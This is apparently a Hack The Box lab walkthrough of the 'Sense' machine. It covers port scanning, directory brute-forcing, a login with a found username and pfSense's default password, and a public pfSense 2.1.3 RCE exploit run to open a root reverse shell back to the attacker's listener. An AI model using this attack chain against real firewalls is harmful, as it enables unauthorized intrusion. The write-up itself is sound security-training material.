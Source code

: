 # HTB - Sense

#### Ip: 10.10.10.60
#### Name: Sense
#### Rating: Easy

----------------------------------------------------------------------

Sense.png

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. I'll include the `--min-rate 10000` flag, just to speed the scan up a bit.

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.60
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:15 CDT
Nmap scan report for 10.10.10.60
Host is up (0.078s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
```

Looks like we've just got HTTP/HTTPS ports open here. Lets further enumerate by adding on the `-sV` and `-sC` flags to enumerate versions and use basic Nmap scripts.

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ sudo nmap -sC -sV -T4 10.10.10.60 -p 80,443  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:19 CDT
Nmap scan report for 10.10.10.60
Host is up (0.063s latency).

PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
```

Based on the Nmap scan and confirming by navigating to the site, port 80 http redirects to https://10.10.10.60. From here we'll we're met with a pfSense login page:

pfsense_login.png

pfSence is is an open source firewall software that is extremely common. From past history I know that the default credentials are admin:pfsense, and sometimes these aren't changed by admins. Unfortunately for us, it appears they've been changed. Looks like we'll need to enumerate further. 

After several directory busting scans, I wasn't coming up with anything juicy. At this point I'll usually just throw a hail Mary and toss the kitchen sink at it, hoping I uncover an interesting subdirectory to move forward with.

By including the `-x php,txt,html,zip` flags in GoBuster, I'm hoping to uncover something like /admin.php or something interesting like that.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60 -k -x php,txt,html,zip
```

Here, I also need to use the `-k` flag to bypass the SSL certificate verification. 

After a long while I finally find something of value: https://10.10.10.60/system-users.txt

system_users.png

Nice! We now have a username, and knowing that the default password for pfSense is 'pfsense.'

Logging in we are greeted with an admin dashboard:

pfsense_rohit.png

At this point lets take a look and see if we can identify any public exploits against this service. 

### Exploitation

There were so many options to choose from using Searchsploit, so I simply Googled pfsense 2.1.3 (Luckily for us one of the first bits of information in the admin dashboard is the installed version number) and found this exploit written in Python. https://www.exploit-db.com/exploits/43560

This appears to be a pretty straightforward script abusing a misconfiguration in 'status_rrd_graph_img.php' where we can upload a reverse shell back to our attacking machine. Looks like we only need to supply a few arguments before firing off the exploit:

exploit_args.png

Let's set up a netcat listener to catch a shell back on, and try the exploit out:

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ python pfsense-2.1.3-rce.py --rhost 10.10.10.60 --lhost 10.10.14.9 --lport 443 --username rohit --password pfsense 
CSRF token obtained
Running exploit...
Exploit completed
```

And back at our netcat listener we've caught a shell back as root! 

nc_shell.png

Nice! Because we caught the shell with root permissions, there's no need for privilege escalation. Lets grab the two flags for this box:

flags.png

Thanks for following along!

-Ryan